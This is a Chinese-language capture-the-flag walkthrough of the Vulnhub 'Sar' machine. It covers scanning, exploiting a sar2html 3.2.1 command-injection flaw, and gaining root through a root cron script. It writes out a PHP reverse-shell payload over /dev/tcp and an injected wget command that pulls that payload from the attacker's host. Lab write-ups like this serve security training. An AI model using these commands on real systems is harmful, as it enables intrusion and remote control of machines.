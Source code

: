 ```yaml
---
title: 'Sar : Walkthrough'
date: 2020-06-02T00:08:14+08:00
author: 2hanx
layout: post
categories:
  - Vulnhub
---
```

### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机       | IP              |
| --------- | --------------- |
| 本机（Win10） | `192.168.1.110` |
| Kali      | `192.168.1.112` |
| Sar       | `192.168.1.105` |

### 扫描端口和版本信息

`nmap -A 192.168.1.105`

![1.png](https://i.loli.net/2020/05/30/wUL8qnS3jXK7Qi9.png) 

### 访问 Web 并确定 Web 应用

根据 Nmap 扫描结果可知，Web 应用程序运行的是 **Apache 2.4.29** 服务器，并且只开启 **80** 端口

![2.png](https://i.loli.net/2020/05/30/YZysnhUmbDCaVL6.png) 

使用 _dirb_ 工具枚举目录

![3.png](https://i.loli.net/2020/05/30/1pMIJvFlhEObocQ.png) 

访问 `robots.txt` 文件返回 `sar2HTML`，继续访问该路径发现服务器运行 `sar2html v3.2.1` Web 应用

![4.png](https://i.loli.net/2020/05/30/aZny9kmdLClT53S.png) 

OSINT 查找该应用漏洞，发现一个 **RCE** 漏洞

![5.png](https://i.loli.net/2020/05/30/cIWxdgYCHZfM3eG.png) 

接下来根据给出的信息利用 RCE 漏洞

![6.png](https://i.loli.net/2020/05/30/w6reC7oH9PAkOGy.png) 

尝试直接反弹 shell 发现不行，那么就用 `wget` 工具下载 PHP 脚本到本地来反弹 shell

![7.png](https://i.loli.net/2020/05/30/DKHeGV3MWYNm7iX.png) 

### Getshell

Kali 端创建 getshell.php 脚本

<pre><code class="language-php line-numbers">echo "&lt;?php system(\"bash -c 'bash -i &gt;& /dev/tcp/192.168.1.112/4455 0&gt;&1'\");?&gt;" &gt; getshell.php
</code></pre>

浏览器访问 `?plot=;wget http://192.168.1.112:8088/getshell.php`，这样虚拟机当前目录下就有 _getshell.php_ 文件

Kali 监听 **4455** 端口即可 getshell

![8.png](https://i.loli.net/2020/05/30/YnC4g9VXP2eNict.png) 

在 `/home/love/Desktop/` 路径下发现 `user.txt` 文件，内容是 MD5 值：`427a7e47deb4a8649c7cab38df232b52`，经过解密得知是 `user.txt` 字符串的 MD5 值，后来尝试使用该密码登录虚拟机，却发现密码不对，想必这只是混淆视听并无用处

接下来通过查找具有 SUID 权限的命令，发现 `ping` 、 `arping` 、`pkexec`和 `pppd`不是默认具有 SUID 权限的工具，因此可以尝试提权

![9.png](https://i.loli.net/2020/05/30/3jWt54TeAhoM1Nb.png) 

### 提权

为了收集更多信息，还是上传 _LinEnum.sh_ 脚本运行一下。发现存在一个定时任务执行`/var/www/html`目录下`finally.sh`脚本，并且是 _root_ 账户下的定时任务

![10.png](https://i.loli.net/2020/05/30/TI1QKxWfMbmEgBC.png) 

因此我们修改 _write.sh_ 脚本即可提权

![11.png](https://i.loli.net/2020/05/30/f8mH5qDeO3ix2np.png) 

Kali 监听 **5566** 端口后过一段时间即可获得 root 权限

![12.png](https://i.loli.net/2020/05/30/JALqEfZhVbIs3Cz.png)